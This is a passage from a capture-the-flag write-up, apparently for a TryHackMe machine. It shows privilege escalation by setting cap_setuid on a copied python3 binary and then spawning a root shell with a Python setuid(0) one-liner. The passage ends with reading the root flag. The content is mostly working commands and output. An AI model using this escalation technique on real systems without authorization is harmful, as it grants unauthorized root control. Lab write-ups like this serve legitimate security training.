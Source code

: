 3. Assign cap_setuid capability:
    
    ```bash
    annie@desktop:/home/annie$ setcap cap_setuid+ep /home/annie/python3
    ```
    
4. Check if it’s successfull:
    
    ```bash
    annie@desktop:/home/annie$ getcap -r / 2>/dev/null
    getcap -r / 2>/dev/null
    /home/annie/python3 = cap_setuid+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
    ```
    
5. Spawn root shell:
    
    ```bash
    annie@desktop:/home/annie$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    <c 'import os; os.setuid(0); os.system("/bin/bash")'
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.
    
    root@desktop:/home/annie# whoami
    whoami
    root
    ```
    
6. Grab root’s flag:
    
    ```bash
    root@desktop:/home/annie# cd /root
    cd /root
    root@desktop:/root# ls -la
    ls -la
    total 44
    drwx------  5 root root 4096 Mar 23  2022 .
    drwxr-xr-x 22 root root 4096 Mar 23  2022 ..
    drwxr-xr-x  3 root root 4096 May 14  2022 .anydesk
    lrwxrwxrwx  1 root root    9 Mar 23  2022 .bash_history -> /dev/null
    -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
    drwx------  2 root root 4096 Mar 23  2022 .cache
    -rwxr-xr-x  1 root root   56 Mar 23  2022 .display10.sh
    drwxr-xr-x  3 root root 4096 Mar 23  2022 .local
    -rw-r--r--  1 root root  148 Aug 17  2015 .profile
    -rw-r--r--  1 root root   66 Mar 23  2022 .selected_editor
    -rw-r--r--  1 root root   81 Mar 23  2022 THM-Voucher.txt
    -rw-r--r--  1 root root   26 Mar 23  2022 root.txt
    root@desktop:/root# cat root.txt
    cat root.txt
    THM{REDACTED}
    ```
    

---

That’s it for this machine.✅
